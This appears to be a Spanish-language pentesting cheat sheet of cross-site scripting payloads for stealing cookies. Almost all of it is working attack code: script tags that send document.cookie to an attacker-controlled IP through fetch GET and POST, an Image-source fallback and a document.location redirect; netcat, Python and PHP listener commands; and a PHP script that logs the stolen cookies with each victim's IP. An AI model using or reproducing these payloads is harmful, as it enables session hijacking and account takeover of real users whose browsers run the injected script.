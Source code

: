 ### Fetch
- Payload básico con GET
	```html
	<script>fetch("http://10.10.14.108/?cookie=" + encodeURIComponent(document.cookie));</script>

	```
- Payload básico con POST
	```html
	<script>fetch("http://YOUR_IP/", {method: "POST", body: document.cookie});</script>
	```
- Payload con encabezados personalizados (algunas aplicaciones bloquean `fetch()` sin encabezados válidos)
	```html
	<script>
	fetch("http://YOUR_IP/", {
	  method: "POST",
	  headers: {"Content-Type": "application/x-www-form-urlencoded"},
	  body: "cookies=" + encodeURIComponent(document.cookie)
	});
	</script>
	```
- Payload alternativo (si `fetch` está bloqueado)
	```html
	<script>new Image().src = "http://YOUR_IP/?cookies=" + encodeURIComponent(document.cookie);
	</script>
	```
- Con `document.location`
	```javascript
	document.location='http://OUR_IP/index.php?c='+document.cookie;
	```
Podemos recoger la información con alguno de estos comandos desde nuestra pwnbox: 
```bash
nc -nlvp 80
python -m http.server
php -S 0.0.0.0:80
```
En solicitudes tipo GET en las que se haya envíado una cookie como parámetro `c=VALUE_COOKIE`, podríamos crear un servidor python para que guarde en un archivo las cookies. Para ello, crearíamos un `index.php`  con el siguiente contenido: 

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
